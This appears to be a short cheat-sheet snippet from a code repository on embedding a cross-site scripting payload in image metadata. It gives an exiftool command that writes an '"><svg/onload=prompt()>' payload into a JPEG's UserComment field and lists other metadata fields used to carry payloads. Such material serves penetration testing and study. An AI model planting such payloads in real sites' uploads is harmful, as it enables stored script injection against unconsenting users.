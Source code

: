 # Embeding in metadata
```
exiftool -UserComment=$'"><svg/onload=prompt(\'H6nt3r_svg\')>' photo_enc.jpeg
```
### Other place to embade payloads
```
Artist
Author
Comment
Creator
ImageDescription
Subject
UserComment
XPComment
```
